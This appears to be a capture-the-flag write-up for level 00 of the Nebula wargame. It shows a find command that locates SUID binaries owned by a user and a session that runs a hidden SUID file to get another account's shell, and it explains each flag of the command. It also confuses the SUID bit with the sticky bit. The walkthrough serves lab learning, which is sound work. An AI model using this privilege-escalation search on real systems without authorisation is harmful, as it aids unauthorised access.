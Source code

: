 ## Level 00

 - Something to do with SUID
 - Sticky but is set means user can execute/read/write as root, depending on where the sbit is placed.
 - Found Sticky bit set for flag00 user `find / -perm +4000 -user level00 -type f -print`
 - Found `-rwsr-x--- 1 flag00 level00 7.2K 2011-11-20 21:22 /bin/.../flag00`
 
 
         level00@nebula:~$ /bin/.../flag00
         Congrats, now run getflag to get your flag!
         flag00@nebula:~$ getflag
         You have successfully executed getflag on a target account
         flag00@nebula:~$
 
  - Done


#### Notes

`find / -perm +4000 -user level00 -type f -print`

 - `/` says start at the top (root) of the file system and search every directory
 - `-perm` says look for the permissions that follow
 - `+4000` is the numerical representation of the SUID bit permission
 - `-user` says look for files that are owned by the following user
 - `level00` is the user whose files we are looking for
 - `-type` defines the type of file we are looking for
 - `f` represents a regular file (not directories or special files)
 - `-print` tells the command to print to standard out the path to the file
